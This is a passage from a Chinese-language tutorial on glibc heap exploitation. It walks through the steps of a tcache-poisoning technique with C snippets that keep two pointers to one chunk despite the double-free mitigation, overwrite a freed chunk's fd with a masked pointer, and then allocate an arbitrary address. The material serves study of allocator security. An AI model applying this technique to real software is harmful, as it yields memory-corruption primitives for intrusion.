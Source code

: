 存在Double-free缓解措施，可以防止同一tcache bin两次插入同一chunk。我们分配另一个变量，从tcache中删除C2。我们称其为C3，因此我们保留两个指向同一块（C和C3）的活动指针。

```
// Allocate to get that copy-of-C chunk out of the tcache.
// we need to make the tcache count valid, so we need to put some
// chunk back in the tcache first, then put a copy of our C chunk
// in it with fd set appropriately (since tcache is LIFO)
uint64_t *c3 = malloc(0x98);
```

### <a class="reference-link" name="%E6%AD%A5%E9%AA%A48b%20-%20%E9%87%8A%E6%94%BE%E5%85%88%E5%89%8D%E5%88%86%E9%85%8D%E7%9A%84%E4%B8%83%E4%B8%AA%E6%8C%87%E9%92%88%E4%B8%AD%E7%9A%84%E4%B8%80%E4%B8%AA%EF%BC%8C%E4%BB%A5%E4%BE%BFtcache%E6%9C%89%E4%B8%80%E9%A1%B9"></a>步骤8b – 释放先前分配的七个指针中的一个，以便tcache有一项

```
//  Can't just add a fd ptr to a chunk and then have it be
//  used if count is 0. So, here we add a chunk to the
// tcache list. Doesn't matter which one.
free(tcache_allocs[0]);
tcache_allocs[0] = NULL;
```

### <a class="reference-link" name="%E6%AD%A5%E9%AA%A48c%20-%20%E9%87%8A%E6%94%BEC3%EF%BC%8C%E4%BD%BF%E5%85%B6fd%E6%8C%87%E5%90%91%E6%AD%A5%E9%AA%A48b%E4%B8%AD%E7%9A%84chunk"></a>步骤8c – 释放C3，使其fd指向步骤8b中的chunk

因为tcache是后进先出的，所以释放C3会将其插入列表的头部，并将C3-&gt;fd设置为释放的tcache_allocs[0]的地址。

```
// NOW put the copy-of-C chunk back into the tcache
free(c3);
c3 = NULL;
```



## 步骤9 – 使用C指针覆盖C3-&gt;fd与我们的掩码指针

我们通过C指针来执行C3-&gt;fd的覆盖，该指针在程序的整个生命周期中都保持分配状态。

```
// Now we write the pointer into the fd of the tcache'd chunk
// we still have access to.
*(uint64_t *) c = masked_ptr;
```



## 步骤10 – 移除C3以获取任意地址

我们只需要做一个分配操作来移除刚刚添加到tcache的C3块，然后，之后的分配将返回我们的任意地址。
